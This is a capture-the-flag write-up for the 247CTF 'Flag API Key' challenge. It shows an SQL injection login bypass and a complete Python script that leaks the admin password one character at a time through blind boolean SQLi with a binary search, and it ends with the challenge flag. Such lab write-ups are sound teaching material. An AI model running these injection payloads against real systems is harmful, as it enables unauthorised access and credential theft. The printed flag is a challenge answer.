


`## THE FLAG API KEY  



The challenge webpage lists a few API endpoints we have access to.  

`/get_flag` requires us to supply the admin's password to get the flag. 

`/get_token` provides a token that is valid for maximum `128` requests, which implies that the challenge involves some form of bruteforcing, and any resets of the token will also reset the admin password.    



In the `/login` endpoint, we can indeed find an SQLi vuln, where a simple SQLi payload gives us auth bypass.  

Since the server only tells us whether the authentication passed or failed, we can use it as an oracle to perform blind SQLi.  

```python
# {"message":"Welcome back admin' or 1--!","result":"success"}
res = s.post(f'{url}/api/login', data={
    'username': "admin' or 1--",
    'password': "",
    'api': <token>
})
```

The challenge description already tells us that the password format is `32` hex characters. However, that equates to `16` possible characters per index, and the worst case scenario for a bruteforce would be `512` total requests, which is way above our limit.  

We can optimise this by using a binary search instead, which shaves down the cost of each index to max `4` guessing attempts.  

```python
import re
import string

def req(username):
    res = s.post(f'{url}/api/login', data={
        'username': username,
        'password': "",
        'api': token
    })

    return res.text

def leak(payload):
    resp = req(f"admin' and {payload}--")

    if "128" in resp:
        exit("> Ran out of requests")

    return "invalid" not in resp.lower()

# get api token
token = reset_token()
print("Token:", token)

# bruteforce password
password = ''
charset = string.digits + "abcdef"

def bin_search(arr, idx):
    low, high = 0, len(arr) - 1

    while low < high:
        mid = (low + high) // 2
        char = arr[mid]

        print("Password:", password, '|', f'{len(password)}/32', '|', ''.join(arr[low : high + 1]))

        if leak(f"substr(password, {idx}, 1) > '{char}'"):
            low = mid + 1
        else:
            high = mid

    return arr[low]

while len(password) < 32:
    char = bin_search(charset, len(password) + 1)

    password += char

print("Password:", password)
```

Running the script will eventually recover the admin password, which we can submit to the `/get_flag` endpoint to get the flag.  

Flag: `247CTF{61f66e2b26507d2498f78b4a77665cb8}``